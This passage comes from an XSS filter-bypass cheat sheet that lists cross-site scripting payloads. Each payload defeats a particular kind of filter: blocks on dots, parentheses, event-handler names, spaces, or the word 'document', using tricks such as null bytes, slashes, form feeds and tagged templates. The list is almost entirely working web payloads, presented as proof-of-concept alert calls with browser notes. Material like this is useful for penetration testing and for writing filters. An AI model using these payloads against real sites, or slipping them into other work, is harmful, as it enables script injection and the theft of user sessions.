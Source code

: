 Bypass dot filter

```javascript
<script>window['alert'](document['domain'])<script>
```

Bypass parenthesis for string - Firefox

```javascript
alert`1`
```

Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>
```

Bypass onxxx= filter with a null byte/vertical tab - IE/Safari

```javascript
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />
```

Bypass onxxx= filter with a '/' - IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror/=alert(0) />
```

Bypass space filter with "/" - IE/Firefox/Chrome/Safari

```javascript
<img/src='1'/onerror=alert(0)>
```

Bypass space filter with 0x0c/^L

```javascript
<svgonload=alert(1)>


$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

